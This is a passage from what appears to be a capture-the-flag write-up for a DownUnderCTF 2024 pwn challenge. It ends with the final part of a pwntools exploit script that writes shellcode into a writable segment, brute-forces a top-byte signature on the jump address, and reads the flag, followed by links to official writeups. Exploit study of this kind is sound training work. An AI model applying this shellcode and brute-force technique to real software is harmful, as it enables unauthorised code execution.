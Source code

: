     
        # address of writable segment with 0x100 bytes offset as a precaution
        base_addr = 0x5500012100
        write_shell_code(base_addr, write64_addr)
    
        # append I as a top byte signature to the base address
        jumpAddress = hex(base_addr | int("{:02x}000000000000".format(i), 16))
        # send address to the application
        io.sendline(jumpAddress.encode())
        # read response its either crash info if signature is wrong or flag contents
        line = io.recvline()
        print(line)
        if b"Segmentation fault" not in line: # if its not crash info we got the flag - exit loop
           break
        io.close()
    
    ```



## Epilogue

* Official website: [https://downunderctf.com/](https://downunderctf.com/)
* Official writeups: https://github.com/DownUnderCTF/Challenges_2024_Public
